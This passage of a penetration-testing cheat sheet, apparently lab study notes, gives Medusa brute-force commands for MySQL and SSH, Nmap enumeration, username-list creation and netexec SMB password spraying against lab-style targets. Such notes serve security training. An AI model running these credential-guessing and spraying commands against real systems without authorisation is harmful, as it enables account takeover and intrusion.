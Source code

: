```bash
medusa -h 192.168.1.100 -u root -P passwords.txt -M mysql

# Empty/default password testing
medusa -h target.com -U users.txt -e ns -M ssh  # -e n (empty) -e s (same as username)

# Fast mode (stop after first success)
medusa -h target.com -U users.txt -P passwords.txt -M ssh -f

# Threading control
medusa -h target.com -U users.txt -P passwords.txt -M ssh -t 4

# Verbose output
medusa -h target.com -U users.txt -P passwords.txt -M ssh -v 4
```

### Medusa vs Hydra
```bash
# Medusa advantages:
# - Better error handling
# - Cleaner output
# - Built-in empty password testing

# Hydra advantages:  
# - More modules available
# - HTTP form support
# - More flexible syntax
```

---

## Attack Strategies

### 1. Service Enumeration
```bash
# Nmap service scan
nmap -sV -p- 10.129.42.197

# Specific service ports
nmap -p 22,445,3389,5985 10.129.42.197
```

### 2. Common Usernames
```bash
# Create common username list
echo -e "administrator\nadmin\nuser\nguest\nroot\nsa\nservice" > users.txt

# Domain-specific usernames
echo -e "domain\\administrator\ndomain\\admin\n.\\administrator" > domain_users.txt
```

### 3. Password Spraying
```bash
# Test common passwords across all users
netexec smb 10.129.42.197 -u users.txt -p "Password123!"

# Seasonal passwords
netexec smb 10.129.42.197 -u users.txt -p "Winter2024!"
```
